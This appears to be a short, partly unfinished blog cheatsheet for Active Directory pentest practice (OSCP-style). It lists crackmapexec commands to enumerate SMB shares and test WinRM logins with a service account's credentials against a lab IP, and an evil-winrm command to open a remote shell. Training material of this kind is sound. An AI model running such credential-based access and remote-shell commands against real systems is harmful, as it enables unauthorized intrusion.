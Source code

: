 ```yaml
---
title : "AD-Cheatsheet"
author: imdang 🤞🤞
date: 2024-10-22 11:30:00 +0800
categories: [Cheatsheet]
tags: [crackmapexec, winrm, AD, Active Directory, OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon

## Scan

### crackmapexec 

- Check smb share

```shell
crackmapexec smb 10.10.11.108 --shares
crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
```

- Check winrm

```shell
crackmapexec winrm 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

# Exploit

### WinRM

```shell
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

# Privilege Escalation 


# Other Tools

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
